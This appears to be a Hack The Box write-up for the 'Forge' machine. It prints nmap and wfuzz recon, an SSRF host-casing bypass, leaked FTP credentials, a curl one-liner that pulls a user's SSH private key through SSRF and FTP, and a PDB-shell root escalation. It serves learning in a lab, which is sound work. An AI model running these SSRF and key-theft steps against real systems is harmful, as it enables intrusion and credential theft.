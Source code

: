# [Forge](https://app.hackthebox.com/machines/forge)


```bash
nmap -p- --min-rate 10000 10.10.11.111 -Pn
```
![Alt text](img/image.png)


After seeing this result, we see that (21,22,80) ports are open.
Let's do greater nmap scan.


```bash
nmap -A -sC -sV -p21,22,80 10.10.11.111 -Pn
```

![Alt text](img/image-1.png)



After these results, we add this ip address to our '/etc/hosts' file for resolving purposes.

```bash
10.10.11.111 forge.htb
```

Let's do Subdomain enumeration that we can find or not.

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.111 -H "Host: FUZZ.forge.htb" --sc 200
```

![Alt text](img/image-2.png)

We find 'admin.forge.htb' subdomain, let's enumerate this.

![Alt text](img/image-3.png)


It says, this webpage is only accessible via only local network.

Let's enumerate http port of this target.

There's '/**upload**' endpoint which we can upload images via browsing or URL.

![Alt text](img/image-4.png)


Let's enumerate including URLs for uploading.  (SSRF vulnerability)

```bash
http://admin.forge.htb  #it doesn't work
http://ADMIN.FORGE.HTB  #it's small bypass way.
```

![Alt text](img/image-5.png)


We can browse this image also.

![Alt text](img/image-6.png)


From curl, we see that we can browse Admin panel which can only be accessible via `localhost`

Another SSRF payload

```bash
http://ADMIN.FORGE.HTB/announcements
```

![Alt text](img/image-7.png)


Let's browse what we see.

![Alt text](img/image-8.png)


Here's what we can see FTP credentials here, let's grab them.

user:heightofsecurity123!



Also from browsing results, we can see there is also `redirect` possible (via u parameter), we can embed link here to browsing.

Let's add FTP url into here.

```bash
http://ADMIN.FORGE.HTB/u?=ftp://user:heightofsecurity123!@127.0.0.1
```

![Alt text](img/image-9.png)


Now, it's time to get id_rsa of user.

I do this via below mini Bash script.

```bash
RESULT=`curl --location --request POST 'http://forge.htb/upload' --form 'url="http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@ADMIN.FORGE.HTB/.ssh/id_rsa"' --form 'remote="1"' 2>/dev/null | grep -Eo 'http://[^ ">]+' | head -1` && echo $RESULT && curl $RESULT
```

![Alt text](img/image-10.png)


Let's save this id_rsa key into file, give 600 privileges then login.

user.txt

![Alt text](img/image-11.png)


Once we are inside, let's try to escalate our privileges into 'root' user. For this type `sudo -l` command to Terminal.

![Alt text](img/image-12.png)


Script which have sudo privilegs is below.

![Alt text](img/image-13.png)


From here, we grab 'password' = secretadminpassword


Let's run this application.

![Alt text](img/image-14.png)

It wants joining from local.

![Alt text](img/image-15.png)



After reading source code, we see that if we enter random data into here, it opens `PDB` shell for us.

![Alt text](img/image-16.png)

If we have `PDB` shell, we can be root user via below commands.

```bash
import os
os.system("bash")
```

![Alt text](img/image-17.png)


root.txt

![Alt text](img/image-18.png)